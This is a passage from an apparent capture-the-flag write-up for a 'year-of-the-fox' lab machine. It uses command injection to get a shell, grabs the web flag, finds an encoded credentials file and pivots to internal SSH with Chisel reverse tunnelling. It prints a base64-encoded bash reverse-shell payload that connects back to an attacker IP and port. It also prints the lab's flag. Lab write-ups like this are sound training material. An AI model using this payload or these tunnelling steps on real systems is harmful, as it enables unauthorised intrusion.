 Command injection confirmed, so we can create a payload now and get a shell. But I Tried multiple reverse shell payloads and all of them didn’t work for unknown reasons. Eventually i created a base64 encoded one and it worked.

```bash
echo 'YmFzaCAtYyAiL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuMS4xMDQvOTAwMSAwPiYxIgo=' | base64 -d  | bash
```

So i started a listener on port 9001 and sent this payload in burpsuite, and finally got a shell after alot of struggle.
<img width="2792" height="331" alt="2025-08-07 160737" src="https://github.com/user-attachments/assets/1c01a4ea-21d0-4805-aa39-9f2e617750f8" />


Grabbed the first flag

```bash
www-data@year-of-the-fox:/var/www$ cat web-flag.txt
cat web-flag.txt
THM{Nzg2ZWQwYWUwN2UwOTU3NDY5ZjVmYTYw}

```

# Lateral Movement

In /var/www/files, we find creds2.txt, base32 and base64-encoded

```bash
cat creds2.txt 
LF5GGMCNPJIXQWLKJEZFURCJGVMVOUJQJVLVE2...
```

Tried decoding it but nothing clear yet.

Next, I notice port 22 is open internally only. Time to pivot.
<img width="1486" height="635" alt="2025-08-07 163258" src="https://github.com/user-attachments/assets/8d9dfe80-acc9-4dbb-b918-684f4911e4bc" />


I spent an hour trying to create a tunnel with Ligolo-ng, which had greatly helped me during the CPTS certification. However on this machine the agent kept dropping and eventually, I had to give up and move on to using Chisel

```bash

└─$ ./chisel server -p 8000 --reverse                      
2025/08/07 12:06:19 server: Reverse tunnelling enabled
2025/08/07 12:06:19 server: Fingerprint 47eCcC0uZgpsf4lK8RnE/pkRI2bwdD2tIemwMkz4AOY=
2025/08/07 12:06:19 server: Listening on http://0.0.0.0:8000
2025/08/07 12:06:52 server: session#1: tun: proxy#R:22=>localhost:22: Listening

```
```bash
www-data@year-of-the-fox:/tmp$ ./chisel client 10.9.1.104:8000 R:2222:localhost:22
<./chisel client 10.9.1.104:8000 R:2222:localhost:22
2025/08/07 17:09:13 client: Connecting to ws://10.9.1.104:8000
2025/08/07 17:09:14 client: Connected (Latency 50.894322ms)

```
